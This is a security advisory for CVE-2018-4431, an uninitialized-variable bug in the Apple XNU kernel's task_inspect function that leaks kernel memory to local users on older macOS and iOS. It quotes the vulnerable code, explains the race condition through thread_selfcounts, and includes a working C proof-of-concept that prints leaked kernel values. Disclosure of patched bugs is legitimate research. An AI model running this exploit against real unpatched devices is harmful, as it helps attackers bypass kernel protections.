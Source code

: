 **Vulnerability Summary**<br>
The following advisory discusses a bug found in the kernel function task_inspect which a local user may exploit in order to read kernel memory due to an uninitialized variable.

**Vendor Response**<br>
“Kernel:
Available for: iPhone 5s and later, iPad Air and later, and iPod touch 6th generation
Impact: A local user may be able to read kernel memory
Description: A memory initialization issue was addressed with improved memory handling.
CVE-2018-4431: An independent security researcher has reported this vulnerability to
Beyond Security’s SecuriTeam Secure Disclosure program
Kernel:
Available for: macOS High Sierra 10.13.6, macOS Mojave 10.14.1
Impact: A local user may be able to read kernel memory
Description: A memory initialization issue was addressed with
improved memory handling.
CVE-2018-4431: An independent security researcher has reported this
vulnerability to Beyond Security’s SecuriTeam Secure Disclosure
program”

**CVE**<br>
CVE-2018-4431

**Credit**<br>
An independent Security Researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
macOS 10.13.6 and prior versions
iOS 12.1.0 and prior versions

**Vulnerability Details**<br>
The bug is in the function task_inspect:
```c
switch (flavor) {
    case TASK_INSPECT_BASIC_COUNTS: {
        struct task_inspect_basic_counts *bc;
        uint64_t task_counts[MT_CORE_NFIXED];
        if (size < TASK_INSPECT_BASIC_COUNTS_COUNT) {
            kr = KERN_INVALID_ARGUMENT;
            break;
        }
        mt_fixed_task_counts(task, task_counts);
        bc = (struct task_inspect_basic_counts *)info_out;
#ifdef MT_CORE_INSTRS
        bc->instructions = task_counts[MT_CORE_INSTRS];
#else
        bc->instructions = 0;
#endif
        bc->cycles = task_counts[MT_CORE_CYCLES];
        size = TASK_INSPECT_BASIC_COUNTS_COUNT;
        break;
    }
```
In the case that flavor is TASK_INSPECT_BASIC_COUNTS, the stack variable task_counts will not be initialized. By making the function mt_fixed_task_counts => mt_fixed_thread_counts return
error, the task_counts will not be initialized and it will be returned to user mode.
By using the API function thread_selfcounts with a race condition we can make it return error.
Another impact is that the functions task_inspect and thread_selfcounts does not include any MACF check, so this bug can be triggered in ANY sandbox.

**PoC**<br>
```c
#import <Foundation/Foundation.h>
extern int thread_selfcounts(int type, user_addr_t buf, user_size_t nbytes);
#define THREAD_COUNT 0x10
volatile bool stop = false;
void race(){
    int err = 0;
    uint64 retu[2] = {0, 0};
    uint64* info_out = malloc(4 * 4);
    memset(info_out, 0x0 , 16);
    int size = 4;
    while(!stop){
        err = thread_selfcounts(1, &retu, sizeof(retu));
        task_inspect(mach_task_self(), 1, info_out, &size);
        if((info_out[0] & 0xffffff0000000000) != 0){
            printf("%16llx\n", info_out[0]);
            printf("%16llx\n", info_out[1]);
        }
    }
}
int main(int argc, const char * argv[]) {
    int err = 0;
    pthread_t thread[THREAD_COUNT] = {0};
    for(int z = 0; z < THREAD_COUNT; z++){
        pthread_create(&thread[z], NULL, race, NULL);
    }
    uint64 info_out[2] = {0};
    int size = 4;
    uint64 retu[2] = {0, 0};
    while(1){
        err = thread_selfcounts(1, &retu, sizeof(retu));
    }
    return 0;
}
```
